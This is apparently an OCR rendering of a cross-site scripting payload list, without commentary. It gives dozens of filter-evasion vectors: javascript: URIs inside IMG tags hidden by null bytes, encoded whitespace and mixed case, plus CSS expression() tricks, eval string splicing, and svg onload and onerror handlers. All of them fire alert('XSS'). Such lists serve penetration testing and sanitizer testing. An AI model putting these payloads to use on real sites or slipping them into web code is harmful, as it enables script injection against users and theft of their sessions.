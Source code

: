 &lt;IMG SRC=\"   javascript&#058;alert('XSS');\"&gt;

perl -e 'print \"&lt;SCR\0IPT&gt;alert(\\"XSS\\")&lt;/SCR\0IPT&gt;\";' &gt; out

perl -e 'print \"&lt;IMG SRC=java\0script&#058;alert(\\"XSS\\")&gt;\";' &gt; out

&lt;IMG SRC=\"jav&#x0D;ascript&#058;alert('XSS');\"&gt;

&lt;IMG SRC=\"jav&#x0A;ascript&#058;alert('XSS');\"&gt;

&lt;IMG SRC=\"jav&#x09;ascript&#058;alert('XSS');\"&gt;

&lt;IMG SRC=javascript&#058;alert('XSS')&gt;

&lt;IMG \"\"\"&gt;&lt;SCRIPT&gt;alert(\"XSS\")&lt;/SCRIPT&gt;\"&gt;

&lt;IMG SRC=`javascript&#058;alert(\"RSnake says, 'XSS'\")`&gt;

&lt;IMG SRC=javascript&#058;alert(&quot;XSS&quot;)&gt;

&lt;IMG SRC=JaVaScRiPt&#058;alert('XSS')&gt;

&lt;IMG SRC=\"javascript&#058;alert('XSS');\"&gt;

'';!--\"&lt;XSS&gt;=&{()}

&lt;IMG SRC=javascrscriptipt:alert('XSS')&gt;

&lt;SCRIPT&gt;a=/XSS/alert(a.source)&lt;/SCRIPT&gt;

exp/*&lt;A STYLE='no\xss:noxss("*//*");xss:&#101;x&#x2F;*XSS*//*/*/pression(alert("XSS"))'&gt;

a="get";b="URL(ja\"";c="vascr";d="ipt:ale";e="rt('XSS');\")";eval(a+b+c+d+e);

&lt;HTML&gt;&lt;BODY&gt;&lt;?xml:namespace prefix="t" ns="urn:schemas-microsoft-com:time"&gt;&lt;?import namespace="t" implementation="#default#time2"&gt;&lt;t:set attributeName="innerHTML" to="XSS&lt;SCRIPT DEFER&gt;alert(&quot;XSS&quot;)&lt;/SCRIPT&gt;"&gt;&lt;/BODY&gt;&lt;/HTML&gt;

&lt;BODY ONLOAD=alert(’XSS’)&gt;

&lt;/script&gt;&lt;script&gt;alert('XSS');&lt;/script&gt;

xss:ex/*XSS*//*/*/pression(alert("XSS"))'&gt;

&lt;!--[if gte IE 4]&gt;&lt;SCRIPT&gt;alert('XSS');&lt;/SCRIPT&gt;&lt;![endif]--&gt;

veris--&gt;group&lt;svg/onload=alert(/XSS/)//

#"&gt;&lt;img src=M onerror=alert('XSS');&gt;

element[attribute='&lt;img src=x onerror=alert('XSS');&gt;

alert;pg("XSS")

&lt;INPUT TYPE="BUTTON" action="alert('XSS')"/&gt;

"&gt;&lt;h1&gt;&lt;IFRAME SRC="javascript:alert('XSS');"&gt;&lt;/IFRAME&gt;"&gt;123&lt;/h1&gt;

&lt;IMG SRC="jav ascript:alert('XSS');"&gt;

&lt;A HREF="htt p://6 6.000146.0x7.147/"&gt;XSS&lt;/A&gt;

'); alert('XSS

&lt;script&gt;alert('XSS');&lt;/script&gt;
